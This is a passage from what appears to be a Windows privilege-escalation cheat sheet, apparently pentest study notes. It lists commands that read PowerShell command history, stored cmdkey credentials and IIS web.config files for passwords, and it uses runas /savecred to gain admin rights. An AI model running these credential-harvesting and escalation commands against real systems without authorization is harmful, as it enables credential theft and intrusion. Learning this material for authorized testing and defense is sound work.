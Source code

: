 - **Look for**
    
    ```xml
    <Credentials><Username>Administrator</Username><Password>MyPassword123</Password></Credentials>
    ```
    

### **2. PowerShell Command History**

- PowerShell saves previously executed commands, including passwords.
- Location:

```powershell
# From cmd.exe:
type "%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt"

# From PowerShell:
cat "$Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt"
```

<img width="1513" height="581" alt="Screenshot 2025-08-13 140105" src="https://github.com/user-attachments/assets/f7b9b2ea-9468-4308-b66b-29f8099c1be3" />

### **3. Saved Windows Credentials (cmdkey & runas)**

- Windows may store credentials for reuse.
- **Check saved creds:**
    
    ```powershell
    cmdkey /list
    ```
    
- **Use them to escalate:**
    
    ```powershell
    runas /savecred /user:admin cmd.exe  # Opens cmd as admin if creds are stored
    ```
    <img width="1585" height="504" alt="Screenshot 2025-08-13 140816" src="https://github.com/user-attachments/assets/ed6a693d-4bc6-4501-a304-9ebf8bfcf2cd" />


### **4. IIS Web Server Config (web.config)**

- IIS websites may store database passwords.
- Location:
    
    ```powershell
    C:\inetpub\wwwroot\web.config
    C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
    ```
    
- **Search for passwords:**
    
    ```powershell
    type web.config | findstr "connectionString"
    ```
